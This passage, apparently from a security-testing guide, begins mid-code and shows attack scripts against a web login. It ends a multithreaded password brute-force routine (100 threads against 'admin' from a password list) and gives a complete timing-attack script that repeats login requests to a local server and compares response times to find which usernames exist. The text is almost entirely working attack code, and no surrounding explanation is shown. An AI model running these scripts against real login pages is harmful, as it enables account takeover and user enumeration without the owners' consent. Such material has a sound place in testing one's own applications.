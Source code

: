 ```python
        futures = []
        for password in passwords:
            future = executor.submit(try_password, username, password)
            futures.append((future, password))
        
        for future, password in futures:
            result = future.result()
            if result:
                print(f"[+] Password found: {result}")
                return result
                
    print("[-] Password not found")
    return None

# Usage
password = brute_force_password('admin', 'passwords.txt', threads=100)
```

### 3. Timing Attack Analysis

**Timing Attack Script**:
```python
import requests
import time
import statistics

def measure_response_time(username, password, iterations=10):
    """Measure average response time for login attempt"""
    times = []
    
    for _ in range(iterations):
        start = time.time()
        
        data = {
            'username': username,
            'password': password
        }
        
        requests.post('http://localhost:8000/login/', data=data)
        
        end = time.time()
        times.append(end - start)
    
    return statistics.mean(times), statistics.stdev(times)

def timing_attack_analysis():
    """Analyze timing differences to detect valid usernames"""
    test_users = ['admin', 'user1', 'doesnotexist1', 'doesnotexist2']
    
    results = {}
    for username in test_users:
        avg_time, std_dev = measure_response_time(username, 'wrongpass')
        results[username] = (avg_time, std_dev)
        print(f"{username}: {avg_time:.4f}s (±{std_dev:.4f}s)")
    
    # Valid users typically have longer response times
    # due to password checking
    return results
```
